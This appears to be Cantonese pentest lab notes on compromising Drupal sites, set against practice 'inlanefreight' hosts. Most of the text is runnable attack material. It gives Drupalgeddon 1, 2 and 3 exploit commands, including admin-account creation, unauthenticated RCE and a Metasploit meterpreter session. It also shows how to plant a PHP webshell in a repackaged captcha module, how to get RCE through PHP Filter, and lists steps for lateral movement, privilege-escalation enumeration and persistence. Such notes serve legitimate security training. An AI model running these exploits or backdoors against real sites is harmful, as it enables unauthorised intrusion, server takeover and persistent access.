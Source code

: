 # Drupal

## <mark style="color:red;">**1. 發現點**</mark>

* 網站係 **Drupal 8**（或者有舊版 Drupal 存在）。
* 檢查 `CHANGELOG.txt` 或者用 `droopescan` 可以知道確實用緊邊個版本。
* 如果係舊版（Drupal 7.x 或 Drupal 8.5.1 以下），**高危漏洞機率極大**！

## <mark style="color:red;">**2. 測試Payload**</mark>

#### 1️⃣ 驗證目標用咩CMS：

```bash
curl -s http://drupal.inlanefreight.local | grep Drupal
```

> 出現 `<meta name="Generator" content="Drupal 8 ...">` 代表用緊Drupal。

#### 2️⃣ 確認版本：

```bash
curl -s http://drupal.inlanefreight.local/CHANGELOG.txt | head -n 5
```

> 如果係 8.5.1 或以下、7.58 或以下，**高危漏洞**。

#### 3️⃣ 自動掃描

```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```

> 自動列出版本、已知漏洞、開放模組。

## <mark style="color:red;">3. 利用階段</mark>

#### （A）Drupalgeddon1 — CVE-2014-3704（SQL Injection）

* 目標：<mark style="color:purple;">**直接創建 admin**</mark>
* 方法：

```bash
python2 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

> 完成後可以用 `hacker : pwnd` 帳號登入。

***

#### （B）Drupalgeddon2 — CVE-2018-7600（RCE）

* 功能：<mark style="color:purple;">未登入情況直接RCE</mark>
* 工具：

```sh
python3 drupalgeddon2.py
```

* 會提示輸入 URL，例如：

```sh
Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/
```

* 成功會上傳一個 `hello.txt` 或 `mrb3n.php`
* 確認 webshell：

```bash
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

> 看到 `uid=33(www-data)` 就成功咗！

***

#### （C）Drupalgeddon3 — CVE-2018-7602（需登入）

* <mark style="color:purple;">如果已經有 admin 權限，可以用 Metasploit：</mark>

```sh
use exploit/multi/http/drupal_drupageddon3
set rhosts <target_ip>
set VHOST drupal-acc.inlanefreight.local
set drupal_session <有效session>
set LHOST <你的IP>
set DRUPAL_NODE 1
exploit
```

> 會開一個 meterpreter session！

\
\
\


## <mark style="color:red;">4. 上傳後門模組（如果有 admin）</mark>

1. 去 drupal.org 下載 `captcha` 模組：

```bash
wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

2. 在 captcha 資料夾入面建立一個 webshell： `shell.php`

```php
<?php
system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
?>
```

3. 建立 `.htaccess`：

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

4. 將 shell.php 同 .htaccess 放入 captcha 文件夾，再打包：

```bash
tar cvf captcha.tar.gz captcha/
```

5. 管理後台上傳 `captcha.tar.gz`：

```
http://drupal.inlanefreight.local/admin/modules/install
```

6. 安裝完成後存取 shell：

```bash
curl http://drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

## <mark style="color:red;">5.PHP Filter 利用（只限 Drupal 7 或早期 8）</mark>

1. 登入 admin
2. Enable 「PHP Filter」模組
3. 去「內容」>「新增內容」> 「Basic page」
4. 內容輸入：

```php
<?php system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']); ?>
```

5. Text format 選「PHP code」，儲存
6. 通過：

```
http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

> 即可RCE。

\
\


## <mark style="color:red;">6. 連鎖漏洞</mark>

1. 橫向移動
   * 確認 server 內部其他主機
   * 用 `netstat -anp`、`arp -a`
2. 嘗試提權
   * `sudo -l`
   * `find / -perm -4000 -type f 2>/dev/null`
3. 擴大後門
   * 放置持久化 shell

